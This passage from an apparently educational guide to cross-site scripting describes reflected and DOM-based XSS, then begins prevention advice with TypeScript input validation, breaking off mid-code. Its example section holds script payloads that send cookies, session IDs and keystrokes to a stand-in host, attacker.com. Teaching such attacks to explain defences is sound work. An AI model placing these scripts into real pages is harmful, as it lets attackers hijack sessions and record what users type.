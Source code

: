 #### **REFLECTED XSS**
- Malicious script is reflected off the server (URL parameters, form submissions)
- Only affects users who click a specially crafted malicious link
- **Example**: Search page that displays unsanitized search terms

#### **DOM-BASED XSS**
- Attack occurs entirely in the browser via client-side JavaScript
- Server is not involved in the vulnerability
- **Example**: JavaScript that uses `location.hash` without sanitization

### XSS Attack Examples

#### Simple Script Injection
```html
<script>alert('XSS Attack!');</script>
```

#### Cookie Theft
```html
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

#### Session Hijacking
```html
<script>
new Image().src='http://attacker.com/log.php?sessionid='+document.cookie;
</script>
```

#### Keylogger
```html
<script>
document.onkeypress = function(e) {
  // Send keystrokes to attacker server
  fetch('http://attacker.com/log', {
    method: 'POST',
    body: JSON.stringify({key: e.key})
  });
};
</script>
```

### XSS Prevention Strategies

#### **1. INPUT VALIDATION**
- Validate all user input on the server side
- Reject input containing script tags, JavaScript events, etc.
- Use allowlists instead of blocklists when possible

```typescript
// Examples from TCSS-460-auth-squared validation
export const isValidEmail = (email: string): boolean => {
    const parts = email.split('@');
    if (parts.length !== 2) return false;

    const [local, domain] = parts;
    if (!local || local.length === 0 || local.length > 64) return false;
    if (!domain || !domain.includes('.')) return false;
    return !email.includes(' ');
};

export const validateRegister = [
    body('email')
```